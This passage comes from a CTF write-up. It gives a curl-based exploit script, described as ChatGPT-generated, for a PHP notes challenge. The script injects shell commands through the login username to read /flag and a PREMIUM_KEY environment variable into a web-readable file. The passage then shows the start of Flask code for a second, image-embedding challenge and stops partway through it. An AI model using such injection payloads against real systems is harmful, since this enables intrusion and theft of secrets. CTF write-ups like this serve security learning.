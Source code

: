 ```php
```

Here is the exploit script(generated from ChatGPT)
```bash
# 1) Login with injected username; keep cookies
curl -i -c cookies.txt -d "action=login" \
  --data-urlencode "username=a';(cat /flag || cat /flag.txt || printenv PREMIUM_KEY)> notes/pwn.txt #" \
  --data-urlencode "premium_key=x" \
  http://chall.blackpinker.com:32833/index.php

# 2) Add any note (triggers __destruct and runs your injected command)
curl -b cookies.txt -d "action=add_note" --data-urlencode "note=hi" \
  http://chall.blackpinker.com:32833/index.php

# 3) Grab the output
curl http://chall.blackpinker.com:32833/notes/pwn.txt
```

## web/FaceBedge(5 solves)
In summary, the challenge is a chat app that has a feature that whenever you send message with a facebook link, it create embed facebook image/post ..., Here is the main app code:
```python
from flask import Flask, render_template, request, jsonify
import re, os
import urllib.request
from urllib.parse import urlparse
from bs4 import BeautifulSoup
import base64
import random

FACEBED_URL = os.getenv('FACEBED_URL', 'http://localhost:9812')
app = Flask(__name__)

def get_facebook_image_data_url(url, headers=None):
  """
  Given a Facebook URL, fetch the Facebed service, extract the og:image,
  download the image, and return a data URL. Returns None on failure.
  """
  parsed = urlparse(url)
  # Build the full path including query
  full_path = parsed.path
  if parsed.query:
    full_path += '?' + parsed.query
  if not full_path.startswith('/'):
    full_path = '/' + full_path
  try:
    req = urllib.request.Request(FACEBED_URL + full_path)
    req.headers.update(headers)
    with urllib.request.urlopen(req) as response:
      html_data = response.read().decode("utf-8")
      soup = BeautifulSoup(html_data, "html.parser")
      meta = soup.find("meta", property="og:image")
      if meta and meta.get("content"):
        img_url = meta["content"]
        try:
          img_req = urllib.request.Request(img_url)
          img_req.headers.update(headers)
          with urllib.request.urlopen(img_req) as img_response:
            img_data = img_response.read()
            ext = img_url.split('.')[-1].lower()
            if ext in ['jpg', 'jpeg']:
              mime = 'image/jpeg'
```